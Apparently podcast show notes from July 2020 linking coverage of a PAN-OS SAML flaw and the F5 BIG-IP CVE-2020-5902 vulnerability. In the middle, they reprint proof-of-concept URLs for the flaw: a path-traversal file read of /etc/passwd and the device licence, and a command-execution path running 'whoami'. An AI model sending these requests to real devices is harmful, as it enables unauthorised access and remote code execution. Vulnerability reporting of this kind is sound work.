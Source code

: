 ```yaml
---
title: "2020-026- WISP PSA PAN-OS vuln redux F5 has a bad weekend vuln scoring Twitter advice and more"
date: Wed, 08 Jul 2020 06:04:49 +0000
draft: false
type: posts
---
```

# 2020-026- WISP PSA PAN-OS vuln redux F5 has a bad weekend vuln scoring Twitter advice and more

<br/>

<br/>
1st: WISP.org PSA from Rachel Tobac (@racheltobac) & @wisporg talking about #shareTheMicInCyber

#SAML PAN-OS: [https://twitter.com/RyanLNewington/status/1278074919092289537](https://twitter.com/RyanLNewington/status/1278074919092289537)

 F5 vulnerability:

[https://www.wired.com/story/f5-big-ip-networking-vulnerability/](https://www.wired.com/story/f5-big-ip-networking-vulnerability/)

[https://research.nccgroup.com/2020/07/05/rift-f5-networks-k52145254-tmui-rce-vulnerability-cve-2020-5902-intelligence/](https://research.nccgroup.com/2020/07/05/rift-f5-networks-k52145254-tmui-rce-vulnerability-cve-2020-5902-intelligence/)

F5 Mitigation (if patching is not immediately possible): [https://twitter.com/TeamAresSec/status/1280590730684256258](https://twitter.com/TeamAresSec/status/1280590730684256258)

**Redirect 404 /**

[https://twitter.com/wugeej/status/1280008779359125504](https://twitter.com/wugeej/status/1280008779359125504) \- Tweet with PoC for the LFI and RCE

F5 Big-IP CVE-2020-5902 LFI and RCE

LFI

https:///tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd

or /etc/hosts

or /config/bigip.license

RCE

https:///tmui/login.jsp/..;/tmui/locallb/workspace/tmshCmd.jsp?command=whoami

How to cope in a no-win situation:  
  
[https://twitter.com/datSecuritychic/status/1280527467569008640](https://twitter.com/datSecuritychic/status/1280527467569008640)

![F5 PoC vuln tweet](https://assets.libsyn.com/secure/show/50535/f5_vuln-tweet.png)

Semicolon in bash: [https://docstore.mik.ua/orelly/unix3/upt/ch28\_16.htm#:~:text=When%20the%20shell%20sees%20a,once%20at%20a%20single%20prompt.](https://docstore.mik.ua/orelly/unix3/upt/ch28_16.htm#:~:text=When%20the%20shell%20sees%20a,once%20at%20a%20single%20prompt.)

#### [Source](http://brakeingsecurity.com/2020-026-wisp-psa-pan-os-vuln-redux-f5-has-a-bad-weekend-vuln-scoring-twitter-advice-and-more)

<br/>
---
